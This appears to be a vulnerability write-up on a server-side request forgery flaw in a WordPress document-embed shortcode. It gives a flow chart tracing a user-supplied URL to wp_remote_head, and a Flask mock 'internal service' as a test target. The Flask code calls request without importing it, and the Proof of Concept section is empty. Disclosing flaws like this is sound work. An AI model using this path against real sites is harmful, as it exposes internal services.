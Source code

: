 ### Flow

{{< mermaid >}}
graph TD
A["Shortcode: [embeddoc url=...]"] --> B["embed_shortcode($atts)"]
B --> C{"isset($shortcode_atts['url']) && !empty(...)?"}
C -- Yes --> D{"$this->allowdownload($shortcode_atts['viewer'])?"}
C -- No --> End1[No request]
D -- Yes --> E{"download == 'all'|'alluser' OR (download=='logged' && is_user_logged_in())?"}
D -- No --> End2[No request]
E -- Yes --> F["wp_remote_head($shortcode_atts['url']) ← SSRF sink"]
E -- No --> End3[No request]
F --> G["Return to client"]
{{< /mermaid >}}

## Exploit

### Local Server

Create a simple local service in Python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def metadata():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

@app.route('/delete')
def delete():
    file_id = request.args.get('id')
    if not file_id:
        return "No id provided", 400
    print(f"delete it: {file_id}")
    return f"Delete it: {file_id}"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "content": "Internal service data"
}
```

### Proof of Concept (PoC)
